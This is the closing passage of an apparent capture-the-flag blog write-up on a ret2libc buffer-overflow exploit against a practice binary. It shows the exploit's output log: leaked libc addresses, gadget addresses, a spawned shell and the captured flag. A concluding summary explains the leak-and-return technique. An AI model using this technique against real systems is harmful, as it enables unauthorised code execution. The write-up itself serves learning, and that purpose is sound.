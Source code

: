 ```python
[*] Loaded 16 cached gadgets for './climb'
[*] Puts@plt: 0x40050c
[*] Puts@glt : 0x601018
[*] Pop rdi gadget: 0x400743
[*] rdi: 0x4004fe
[*] Leaked libc address, Puts: 0x7ff0e807a9c0
[*] Base address of libc: 0x7ff0e7ffa000 
[*] bin/sh: 0x7ff0e81ade9a 
[*] system: 0x7ff0e8049440 
[*] Switching to interactive mode
$ ls
climb
flag.txt
$ cat flag.txt
flag{w0w_A_R34L_LiF3_R0pp3r!}
$
```

## Conclusion
In this part of `Exploitation&Pwning` Series here I tried to explain about the `ret2libc` exploit. At first I overflowed the `buffer` and called to `got` address to leak the address of related function. Later I returned back to main so that I can use the overflow function again and get a shell by using `system and binsh` from `libc`.

Stay updated to my blog. I will be posting next writeup soon about `Exploitation&Pwning` series posts. Last but not the least I would like to thank all my readers for staying with me till here.

Feedbacks are really appreciated in the comments below.

Stay safe.

Keep learning.






